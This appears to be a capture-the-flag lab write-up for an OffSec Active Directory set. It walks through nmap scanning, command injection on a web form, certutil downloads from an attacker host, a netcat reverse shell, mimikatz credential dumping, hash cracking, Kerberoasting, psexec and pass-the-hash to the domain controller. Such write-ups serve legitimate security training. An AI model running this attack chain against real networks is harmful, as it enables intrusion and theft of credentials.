# offsec.local
## Summary
### System Information
```text
IP: 192.168.149.57
OS: Windows
Hostname: dc01
```

```text
IP: 192.168.149.58
OS: Windows
Hostname: appsrv01
```

```text
IP: 192.168.149.59
OS: Windows
Hostname: client01
```

### Ports
#### DC01
```text
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-14 03:02:01Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: offsec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: offsec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

#### CLIENT01
```text
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

#### APPSRV01
```text
80/tcp   open     http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.2)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.2
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open     ssl/http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.2)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.2
445/tcp  open     microsoft-ds?
3306/tcp open     mysql?
```

***

## Enumeration
### NMAP
#### DC01
```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap_dc01.txt 192.168.149.57
```

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-14 03:02:01Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: offsec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: offsec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### CLIENT01
```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap_client01.txt 192.168.149.59
```

```text
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: OFFSEC
|   NetBIOS_Domain_Name: OFFSEC
|   NetBIOS_Computer_Name: CLIENT01
|   DNS_Domain_Name: offsec.local
|   DNS_Computer_Name: CLIENT01.offsec.local
|   DNS_Tree_Name: offsec.local
|   Product_Version: 10.0.19041
|_  System_Time: 2022-08-14T03:07:04+00:00
| ssl-cert: Subject: commonName=CLIENT01.offsec.local
| Issuer: commonName=CLIENT01.offsec.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-13T02:55:23
| Not valid after:  2023-02-12T02:55:23
| MD5:   1da5 8381 b8a9 c8e4 38cc 310b c9f8 4049
|_SHA-1: 46b6 46f5 5938 0b47 5767 6e8b 34d2 8585 d810 a728
|_ssl-date: 2022-08-14T03:07:12+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### APPSRV01
```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap_appsrv01.txt 192.168.149.58
```

```text
PORT     STATE    SERVICE       VERSION
80/tcp   open     http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.2)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.2
|_http-title: DNS Querying Service
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open     ssl/http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.2)
| tls-alpn: 
|_  http/1.1
|_http-title: DNS Querying Service
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.2
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
445/tcp  open     microsoft-ds?
3306/tcp open     mysql?
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
8021/tcp filtered ftp-proxy
8093/tcp filtered unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Website
Website running on port 80 on `APPSRV01`.



## Shell as SYSTEM
The input isn't properly sanitised and lets you append additional commands using `&&`.



Let's upload `netcat` and get a shell.

```bash
cp /usr/share/windows-binaries/nc.exe ./
python3 -m http.server 80
```

We can use `certutil` to upload the file.

```powershell
&& certutil -urlcache -split -f http://192.168.119.149/nc.exe nc.exe
```



Let's setup a `netcat` listener.

```bash
rlwrap nc -lnvp 9001
```

Now we can get our reverse shell.

```powershell
&& .\nc.exe 192.168.119.149 9001 -e cmd.exe
```



### Flag.txt
```bash
type flag.txt && ipconfig
```



```text
OS{476bda311aa28abc187fbbabb95584ff}
```

### Hashes
We can use `mimikatz` to dump system hashes. First we need to upload `mimikatz` to the target.

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe ./
python3 -m http.server 80
```

Now we can download and execute it on the target.

```powershell
certutil -urlcache -split -f http://192.168.119.149/mimikatz.exe mimikatz.exe
.\mimikatz.exe
```



```powershell
privilege::debug
sekurlsa::logonpasswords
```



```text
Nathan:952a058e0f087c0acaecb751ce5ca5b7
```

We can dump local system hashes using `lsadump`.

```powershell
lsadump::sam
```



```text
Administrator:cb91f1971104e2c646024ce6fb3d83fb
```

We're able to crack Nathan's password using `hashcat`.

```bash
hashcat -m 1000 -a 0 952a058e0f087c0acaecb751ce5ca5b7 /usr/share/wordlists/rockyou.txt --force
```



```text
Nathan:abc123//
```

## Pivot to CLIENT01
### RDP
We're now able to RDP into `CLIENT01` as Nathan.

```bash
xfreerdp /v:192.168.149.59 /u:Nathan /p:abc123//
```



### Shell
I'm going to get a shell on the machine so I don't have to interact via the RDP session.

```bash
rlwrap nc -lnvp 9001
```

```powershell
certutil -urlcache -split -f http://192.168.119.149/nc.exe nc.exe
.\nc.exe 192.168.119.149 9001 -e cmd.exe
```





### Flag.txt
```powershell
type flag.txt && ipconfig
```



```text
OS{ab66bc9a8d577f278a285f8c87ffc746}
```

### Kerberoasting
We'll start by dumping SPN's.

```bash
impacket-GetUserSPNs -request offsec.local/nathan:abc123// -dc-ip 192.168.149.57 -outputfile allison.kerberoast
```



Crack the encrypted TGT using `hashcat`.

```bash
hashcat -m 13100 -a 0 allison.kerberoast /usr/share/wordlists/rockyou.txt --force
```



```text
Allison:RockYou!
```

Allison has local administrator rights on `CLIENT01` so we can use `psexec` to get an administrative shell.

```bash
rlwrap impacket-psexec 'allison:RockYou!@192.168.149.59'
```



### Flag.txt
```powershell
type flag.txt && ipconfig
```



```text
OS{8fb562ebe864b3f72e5b4f7d86ea2279}
```

### Dump Hashes
We'll first need to upload and run `mimikatz`.

```powershell
certutil -urlcache -split -f http://192.168.119.149/mimikatz.exe mimikatz.exe
.\mimikatz.exe
```



Now we can extract system hashes.

```powershell
privilege::debug
selurlsa::logonpasswords
```



```text
Administrator:8c802621d2e36fc074345dded890f3e5
```

## Pivot to DC01
We can now use a pass the hash attack to gain SYSTEM on on the DC.

```bash
rlwrap impacket-psexec 'offsec/Administrator@192.168.149.57' -hashes :8c802621d2e36fc074345dded890f3e5
```



### Proof.txt
```powershell
type proof.txt && ipconfig
```



```text
OS{75d637025e0cdd82e550550db4fc0388}
```

### Dump Hashes
I'll use `secretsdump` to dump all the domain and local system hashes.

```bash
impacket-secretsdump 'offsec.local/Administrator@offsec.local' -hashes :8c802621d2e36fc074345dded890f3e5 -outputfile hashes
```

